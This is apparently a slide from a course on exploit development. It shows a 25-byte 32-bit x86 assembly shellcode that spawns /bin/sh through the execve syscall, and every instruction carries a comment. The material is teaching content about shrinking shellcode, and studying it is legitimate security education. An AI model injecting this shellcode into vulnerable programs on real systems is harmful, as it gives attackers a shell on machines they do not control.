

# Compressing our shellcode further
Exec_shell is 36 bytes, we can get it down to 25 bytes, tiny_shell.asm

BITS 32

; execve(const char *filename, char *const argv [], char *const envp[])
  xor eax, eax      ; Zero out eax.
  push eax          ; Push some nulls for string termination.
  push 0x68732f2f   ; Push "//sh" to the stack.
  push 0x6e69622f   ; Push "/bin" to the stack.
  mov ebx, esp      ; Put the address of "/bin//sh" into ebx, via esp.
  push eax          ; Push 32-bit null terminator to stack.
  mov edx, esp      ; This is an empty array for envp.
  push ebx          ; Push string addr to stack above null terminator.
  mov ecx, esp      ; This is the argv array with string ptr.
  mov al, 11        ; Syscall #11.
  int 0x80          ; Do it.